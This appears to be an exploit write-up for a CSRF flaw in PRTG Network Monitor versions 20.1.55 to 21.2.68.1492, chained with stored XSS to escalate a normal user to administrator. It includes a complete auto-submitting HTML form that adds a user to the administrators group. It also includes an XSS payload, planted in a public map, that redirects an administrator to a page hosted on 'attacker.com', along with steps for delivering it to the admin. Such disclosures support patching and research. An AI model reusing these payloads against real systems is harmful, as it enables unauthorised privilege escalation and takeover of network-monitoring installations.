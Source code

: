 # PRTG Network Monitoor v20.1.55 to 21.2.68.1492 - CSRF
Cross Site Request Forgery (CSRF) on PRTG Network Monitor version 20.1.55 to 21.2.68.1492

Exploit Title: Cross Site Request Forgery (CSRF)  
Date: 10/06/2021  
Exploit Author: Likhith CV  
Vendor Homepage: https://www.paessler.com/  
Software Link: https://www.paessler.com/prtg  
Test on Version: 20.1.55.1775+ and 21.2.68.1492+    
Affected Versions: not tested on other versions  


## Observation
It was observed that anti csrf tokens are not implemented in PRTG Network Monitor v20.1.55 to 21.2.68.1492

Severity: High

## Steps To reproduce:

To exploit this vulnerability normal user can simply create a HTML form that would add a normal user account to administrators group request and share the link with the victim. On clicking the link , the user account elevation request will be triggered in background and it shall create a user account from his valid session. Since this version is vulnerable to Stored XSS attacker chain XSS to CSRF

Any action can be performed on behalf of logged in user but for demonstration user account privilege escalation is shown as example


1. Create a CSRF payload as following
```javascript
<html>
  <body>  
 <form action="https://[PRTG_domain]/editsettings" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="name&#95;" value="PRTG&#32;Administrators" />
      <input type="hidden" name="defaulthome&#95;" value="&#47;welcome&#46;htm" />
      <input type="hidden" name="isadgroup" value="0" />
      <input type="hidden" name="adusertype&#95;" value="0" />
      <input type="hidden" name="aduserack&#95;" value="0" />
      <input type="hidden" name="users&#95;" value="1" />
      <input type="hidden" name="users&#95;" value="1" />
      <input type="hidden" name="users&#95;&#95;check" value="[user_id]&#124;[username]&#124;" />			<!--user_id and username-->
      <input type="hidden" name="users&#95;&#95;check" value="100&#124;PRTG&#32;System&#32;Administrator&#124;" />
      <input type="hidden" name="id" value="200" />
      <input type="hidden" name="targeturl" value="&#47;systemsetup&#46;htm&#63;tabid&#61;6" />
      <input type="submit" value="Submit request" />
    </form>
    <svg/onload='document.forms[0].submit()'/> 
  </body>
</html>



```
2. deliver the payload to admin of the PRTG Portal
3. once Admin opens your payload, normal user's privilege will be elevated


Since this version is vulnerable to stored XSS, XSS can be leverged to CSRF and used to trick admin in creating new user
### before elevating Privileges
![0before](https://user-images.githubusercontent.com/36541248/122039108-5f9a0180-cde7-11eb-8366-4b539992926b.png)

### Get user id from source code
![user_id](https://user-images.githubusercontent.com/36541248/122039169-6e80b400-cde7-11eb-961d-ada94074f825.png)


### CSRF Payload
![image](https://user-images.githubusercontent.com/36541248/122034254-6114fb00-cde2-11eb-83ae-a0b3d0ef812e.png)

### Hosting admin_csrf.html on attacker server
![host_csrf_payload](https://user-images.githubusercontent.com/36541248/122034421-91f53000-cde2-11eb-8fd5-1444897e31f9.png)

### Add a Map
![2add_map1](https://user-images.githubusercontent.com/36541248/122038569-cc60cc00-cde6-11eb-9ebe-b439d73d3411.png)

### Enter any name and select allow publilc access (so that our XSS payload is publically accessible)
![3add_map2](https://user-images.githubusercontent.com/36541248/122038633-dc78ab80-cde6-11eb-850f-08ce1a50b800.png)


### Go to Map Designer --> Drag and Drop a Icon --> Enter XSS payload in After HTML

```javascript
<img src=x onerror=document.location.href="http://attacker.com/admin_csrf.html"//">

```

![4add_map3](https://user-images.githubusercontent.com/36541248/122038644-e0a4c900-cde6-11eb-8421-ee3a87497f71.png)

### Click on Save

### New Map with XSS payload is created
![map_created](https://user-images.githubusercontent.com/36541248/122039511-cf0ff100-cde7-11eb-9ea3-531412c40944.png)

### Once Admin Logs in, he is displayed with malicious map created by normal user
![all_maps_disaplayed_on_admin](https://user-images.githubusercontent.com/36541248/122038939-32e5ea00-cde7-11eb-955a-3733fe44f5b0.png)


### Once the Admin Opens map CSRF Payload is triggered and new user account "user_test2" is created
![5after](https://user-images.githubusercontent.com/36541248/122038971-3aa58e80-cde7-11eb-908a-78bdfa40b638.png)




